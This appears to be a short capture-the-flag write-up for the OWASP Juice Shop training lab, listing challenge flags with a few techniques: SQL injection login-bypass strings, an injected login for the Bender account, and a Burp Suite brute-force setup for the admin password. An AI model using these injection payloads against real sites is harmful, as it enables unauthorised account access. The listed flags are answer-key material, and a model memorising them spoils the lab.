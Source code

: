 # Administrator’s email address
admin@juice-sh.op

# Parameter used for searching in URL
q    http://10.10.238.206/#/search?q=a

# Logging into site with SQL Injection in Burp Suite
After entering text into the login screen, entered the following in Burp Suite:
“email”:” ‘ or 1=1—“,”password”:”a”
Flag{32a5e0f21372bcc1000a6088b93b458e41f0e02a}

# Logging into Bender account
Enter “email”:bender@juice-sh.op’--“,password”:”
Flag{fb364762a3c102b2db932069c0e6b78e738d4066}

# Bruteforce the Administrator account's password
Entered "email":"admin@juice-sh.op","password":"§§" into the intruder section of Burp Suite
Flag{c2110d06dc6f81c67cd8099ff0ba601241f1ac0e}

# Reset Jim's password
Flag{094fbc9b48e525150ba97d05b942bbf114987257}

# Access the Confidential Document
Flag{edf9281222395a1c5fee9b89e32175f1ccf50c5b}

# Log into MC SafeSearch's account!
Flag{66bdcffad9e698fd534003fbb3cc7e2b7b55d7f0}

# Download the Backup file
Flag{bfc1e6b4a16579e85e06fee4c36ff8c02fb13795}

# Access the administration page
Flag{946a799363226a24822008503f5d1324536629a0}

# View another user's shopping basket
Flag{41b997a36cc33fbe4f0ba018474e19ae5ce52121}

# Remove all 5-star reviews
Flag{50c97bcce0b895e446d61c83a21df371ac2266ef}

# Perform a DOM XSS
Flag{9aaf4bbea5c30d00a1f5bbcfce4db6d4b0efe0bf}
# Perform a persistent XSS
Flag{149aa8ce13d7a4a8a931472308e269c94dc5f156}

# Perform a reflected XSS
Flag{23cefee1527bde039295b2616eeb29e1edc660a0}

# Access the /#/score-board/ page
Flag{7efd3174f9dd5baa03a7882027f2824d2f72d86e}

